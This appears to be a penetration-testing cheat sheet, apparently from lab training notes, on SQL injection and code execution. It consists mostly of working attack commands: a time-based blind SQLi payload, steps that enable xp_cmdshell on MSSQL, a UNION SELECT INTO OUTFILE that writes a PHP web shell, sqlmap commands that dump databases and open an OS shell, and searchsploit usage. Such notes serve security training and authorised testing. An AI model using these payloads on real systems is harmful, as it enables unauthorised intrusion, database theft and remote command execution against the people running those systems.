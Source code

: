 ## Blind SQL Injection - This can be identified by Time-based SQLI

```bash
# Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## Manual Code Execution

```bash
# To login
impacket-mssqlclient Administrator:Password@TARGET -windows-auth 
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
# Now we can run commands
EXECUTE xp_cmdshell 'whoami';

# Sometimes we may not have direct access to convert it to RCE from web, then follow below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // # Writing into a new file
# Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id # Command execution
```

## SQLMap - Automated Code execution

```bash
# Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user 
# Dumping database
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump 

# OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
# /var/www/html/tmp is the writable folder on target, hence we're writing there
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" 

```

---

# Exploits - Hack the planet!

## Searchsploit

```bash
searchsploit <name>
# Copies the exploit to the current location
searchsploit -m windows/remote/46697.py 
```
